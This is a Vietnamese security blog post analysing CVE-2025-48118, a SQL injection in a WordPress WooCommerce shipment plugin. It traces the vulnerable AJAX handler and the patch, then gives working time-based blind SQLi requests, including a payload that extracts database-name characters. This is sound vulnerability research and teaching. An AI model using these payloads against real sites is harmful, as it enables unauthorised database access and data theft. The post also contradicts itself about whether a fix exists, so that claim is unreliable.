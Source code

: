 ```yaml
---
title: CVE-2025-48118 Analysis & POC
description: Security Vulnerability in WordPress Woocommerce Partial Shipment Plugin.
date: 2025-09-29 19:54:00 +0700
categories: [CVE Analyst]
tags: [analyst, plugin, sqli]
images: ["app.png"]
featuredImage: "app.png"

lightgallery: true

toc:
  auto: false
---
```


<!--more-->

Lỗ hổng xảy ra trên plugin **Woocommerce Partial Shipment** của WordPress trước phiên bản **3.3**. Điều này có thể cho phép kẻ tấn công trực tiếp tương tác với cơ sở dữ liệu của bạn, bao gồm không giới hạn ở việc đánh cắp thông tin.

* **CVE ID**: [CVE-2025-48118](https://www.cve.org/CVERecord?id=CVE-2025-48118)
* **Product**: [WordPress Woocommerce Partial Shipment Plugin](https://wordpress.org/plugins/wc-partial-shipment/advanced/)
* **Vulnerability Type**: SQL Injection
* **Affected Versions**: <= 3.2
* **CVSS severity**:  High (8.5)
* **Required Privilege**: Subscriber

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
- **Woocommerce Partial Shipment**:  v3.2(vul) và v3.3(fix)
- **diff tool**: **meld** hoặc bất cứ tool nào có thể compare để thấy được sự khác biệt giữa 2 version
- **Actived WooCommerce plugin**: plugin bắt buộc **actived** trước khi cài **Woocommerce Partial Shipment Plugin**, một số hàm trong **WooCommerce** sẽ được sử dụng.

## Analysis

Nguyên nhân cố lõi do ứng dụng chèn trực tiếp dữ liệu từ **POST** request vào SQL query mà không có cơ chế kiểm soát chặt chẽ.

### Patch Diff

Dùng diff tool bất kì để so sánh sự khác biệt giữa bản lỗi và bản vá.
Có sự khác biệt rõ ở file **wc-partial-shipment/woocommerce-partial-shipment.php**

Nhưng ở đây, dev thay đổi khá nhiều ta khó để tìm được vị trí lỗi.

> Trong WordPress, để SQLi xảy ra, ứng dụng phải tương tác với database thông qua biến global `$wpdb`, ta search từ khóa này trong file **wc-partial-shipment/woocommerce-partial-shipment.php** để tìm sink.

{{< figure src="search_sink.png" caption="Kết quả tìm vị trí sink trong mã nguồn" alt="search sink" >}}

`get_shipment_id` và `get_wxp_shipment_data` là 2 hàm thuộc class **WXP_Partial_Shipment** đáng chú ý, dữ liệu được đưa thẳng vào câu query mà không có cơ chế kiểm soát nào. Do đó, lỗ hổng SQLi có thể xảy ra.

{{< figure src="patch.png" caption="So sánh sự khác biệt giữa bản lỗi và bản vá" alt="Patch" >}}

Bản vá sử dụng `$wpdb->prepare()` để chuẩn bị câu query, thay vì **nối trực tiếp dữ liệu từ người dùng**. Điều này đảm bảo rằng tất cả giá trị được **escape đúng cách** trước khi chèn vào SQL, ngăn ngừa nguy cơ SQL Injection.

### How it work?

`get_shipment_id` và `get_wxp_shipment_data` đều được hàm `wxp_order_set_shipped` trong cùng class gọi và sử dụng.

```php
function wxp_order_set_shipped(){
    $order_id = isset($_POST['order_id']) ? $_POST['order_id'] : 0;
    // other logic

    $wxp_shipment = $this->get_wxp_shipment_data($order_id);
    if(isset($_POST['order_id']) && $_POST['order_id']){
        global $wpdb;
        $shipment_id = $this->get_shipment_id($_POST['order_id']);
        if(!$shipment_id){
            $data = array(
                'order_id' =>$order_id,
                'shipment_id' =>1,
                'shipment_url'=>'',
                'shipment_num'=>'',
                'shipment_date'=>current_time('timestamp',0),
            );
            $wpdb->insert($wpdb->prefix."partial_shipment",$data,array('%d','%d','%s','%s','%s'));
            $shipment_id = $wpdb->insert_id;
        }
    // other logic     
    }

    echo json_encode(array('order_id'=>$order_id,'status'=>$status_key));
    exit();
}
```

👉 `order_id` được lấy từ **POST request**, nơi người dùng có thể kiểm soát làm đối số khi gọi hàm `get_shipment_id` và `get_wxp_shipment_data`
truyền vào câu query chứa lổ hỗng SQLi.

Để xác định nơi `wxp_order_set_shipped` được gọi và sử dụng, ta tìm kiếm với từ khóa `wxp_order_set_shipped` trong thư mục chứa plugin.

{{< figure src="search_1.png" caption="Tìm vị trí nơi hàm wxp_order_set_shipped được gọi" alt="Search 1" >}}

`wxp_order_set_shipped` được `construct` của cùng class sử dụng làm callback cho hook `wp_ajax_wxp_order_set_shipped` => yêu cầu người dùng phải đăng nhập

👉 Khi truy cập vào `/wp-admin/admin-ajax.php` với tham số:

```
action=wxp_order_set_shipped&order_id=payload_here
```

* Callback `wxp_order_set_shipped` được gọi
* `order_id` được lấy trực tiếp từ request và chèn vào SQL query.
* Query thực thi 2 lần do được truyền vào 2 hàm chạy lệnh SQL với payload độc hại.

## Exploit

### Detect SQLi

Gửi **POST request** chứa payload SQLi.

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
Cookie: cookie_here

action=wxp_order_set_shipped&order_id=(SELECT 1 FROM (SELECT SLEEP(5))a)
```

Khi đó câu query sẽ trở thành:

```sql
SELECT id as ship_id FROM wp_partial_shipment WHERE order_id=(SELECT 1 FROM (SELECT SLEEP(5))a)
```

Ở đây có 2 nơi thực hiện query nên thời gian phản hồi sẽ tăng gấp đôi

{{< figure src="time_resp.png" caption="Kết quả phản hồi khi khai thác thành công" alt="time response" >}}

Ta sử dụng **subquery trong mệnh đề FROM** vì truy vấn con được coi như một bảng tạm thời. MySQL sẽ thực thi truy vấn con trước để tạo bảng tạm, sau đó mới thực hiện truy vấn chính. Khi so sánh theo từng row, `SLEEP` chỉ chạy một lần trong quá trình khởi tạo bảng tạm, các lần so sánh tiếp theo sẽ không thực thi lại, nhờ đó tránh việc `SLEEP` bị nhân nhiều lần.

Ví dụ khi gửi request với payload này:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
Cookie: cookie_here

action=wxp_order_set_shipped&order_id=(SELECT SLEEP(5))
```

Thời gian trả về tăng theo cấp số nhân

{{< figure src="search_2.png" caption="Thời gian phản hồi tăng theo cấp số nhân" alt="search 2" >}}

### Get First Letter of Database Name

Điều kiện tiên quyết để **dump được hết data** là phải dump được 1 ký tự bất kỳ của tên database, nếu lấy được thì gần như toàn bộ data đều dump được.

Gửi request với **SQLi payload**:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
Cookie: cookie_here

action=wxp_order_set_shipped&order_id=(SELECT 1 FROM (SELECT IF(SUBSTRING(SCHEMA(),1,1)=0x77, SLEEP(5), 1))a)
```

Sử dụng `SUBSTRING()` để lấy ký tự đầu tiên của **database name**, `IF()` trả về `SLEEP(5)` nếu ký tự đó là `0x77`('w')

Sử dụng hex encoding `w` thành `0x77` vì `order_id` được lấy từ **POST** request trong nên bị escape bởi [magic quotes](https://patchstack.com/academy/wordpress/vulnerabilities/sql-injection/#magic-quotes) trong WordPress và bởi `sanitize_text_field`.

👉 Dựa trên thời gian phản hồi => kí tự đầu tiên đúng là `w`.

## Conclusion

Lỗ hổng **CVE-2025-48118** trong plugin WordPress **Woocommerce Partial Shipment** trước phiên bản **3.3**, xuất phát từ việc truyền trực tiếp input từ người dùng vào SQL query mà không có biện pháp kiểm soát chặt chẽ dẫn đến lỗ hổng SQL Injection.

Chưa có bản vá chính thực nào cho lỗ hổng này.

**Key takeaways**:

* Kiểm soát kỹ input từ người dùng.
* Luôn sử dụng `$wpdb->prepare()` khi làm việc với database trong WordPress để tránh SQL Injection.
* Thường xuyên cập nhật plugin và kiểm tra bảo mật để tránh trở thành mục tiêu tấn công.

## References

[SQL Injection cheat sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[WordPress Woocommerce Partial Shipment Plugin <= 3.2 is vulnerable to SQL Injection](https://patchstack.com/database/wordpress/plugin/wc-partial-shipment/vulnerability/wordpress-woocommerce-partial-shipment-3-2-sql-injection-vulnerability)
